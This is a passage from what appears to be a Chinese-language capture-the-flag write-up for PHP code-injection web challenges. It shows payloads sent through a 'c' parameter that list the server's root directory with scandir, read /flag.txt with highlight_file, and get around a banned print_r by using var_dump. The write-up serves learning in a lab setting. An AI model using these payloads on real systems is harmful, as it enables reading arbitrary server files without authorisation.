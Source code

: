 猜测flag在根目录，使用之前提到过的方法查看根目录

```
c=print_r(scandir('/'));
```

![image-20250212175233050](assets/image-20250212175233050.png)

发现flag.txt，直接查看

```
c=highlight_file("/flag.txt");
```



#### web67

payload与上题一致

值得一提，这题`print_r()`被BAN了，这意味着无法使用上题的方法查看根目录

这时可以使用`var_dump()`来查看根目录

```
c=var_dump(scandir("/"));
```


